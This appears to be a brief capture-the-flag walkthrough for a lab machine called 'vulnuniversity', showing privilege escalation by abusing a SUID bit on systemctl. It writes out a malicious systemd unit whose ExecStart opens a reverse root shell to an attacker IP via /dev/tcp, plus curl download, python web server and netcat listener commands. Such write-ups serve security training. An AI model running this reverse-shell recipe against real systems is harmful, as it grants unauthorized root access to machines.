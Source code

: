after you get a shell into the system as 

	www-data@vulnuniversity:/$ whoami
whoami
www-data



you find out you have SUID bit set on systemctl


now you create a file called root.service
withe below contents
	start
[Unit]
Description=roooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.18.20.174/9999 0>&1'

[Install]
WantedBy=multi-user.target
	end


now you can send this file over to target machine using

	python3 -m http.server 8000


on the target machcine run this command

	www-data@vulnuniversity:/tmp$ curl "http://10.18.20.174:8000/root.service" > root.service


also make sure you download in /tmp directory

now

start a nc listerner on the port you configured in root.service

	nc -lnvp 9999



now on the target machine


	www-data@vulnuniversity:/tmp$ /bin/systemctl enable root.service


Followed with

	www-data@vulnuniversity:/$ /bin/systemctl start root



now you will have a root shell on the netcat listerner


reference: https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49